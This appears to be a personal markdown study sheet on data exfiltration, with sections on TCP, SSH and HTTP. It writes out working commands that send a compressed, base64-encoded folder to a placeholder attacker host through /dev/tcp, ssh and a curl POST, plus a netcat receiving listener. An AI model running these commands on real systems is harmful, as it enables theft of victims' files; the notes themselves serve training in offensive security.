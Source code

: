 [Data Exfiltration](#data-exfiltration)
  - [TCP](#tcp)
  - [SSH](#ssh)
  - [HTTP](#http)


# Data Exfiltration
- extract information
- outbound traffic TCP/UDP 53 (DNO)

- Bind9 server
  - buy a domain (https://www.youtube.com/watch?v=p8wbebEgtDk)

## TCP
- easy to detect
- listener on attacker: nc -lvp XXX > output.txt
  
- connecttion on victim:
  - tar zfc - folder/ | base64 | dd conv=ebcdic > /dev/tcp/ATTAcKER_IP/PORT
    - compress folder
    - convert to base64
    - convert and copy file, from ASCI du EBCDIC
    - send to this Port
- Received file
  - dd conv=ascii if=received.file | base64 -d > file.tar

## SSH
- Connection on victim 
  - tar cf - filder/ | ssh user@ip "cd /tmp/; tar xpf -"

## HTTP
- post request: not cached, not in browse, not bookmarked, no restriction on size
- SEND: curl --data "files=$(tar zcf - FOLDR/ | base64)" http://attacker-server/file.php
- RECEIVE: correct URL enconding


- HTTPS
  - https://www.digitalocean.com/community/tutorials/how-to-create-a-self-signed-ssl-certificate-for-apache-in-ubuntu-18-04

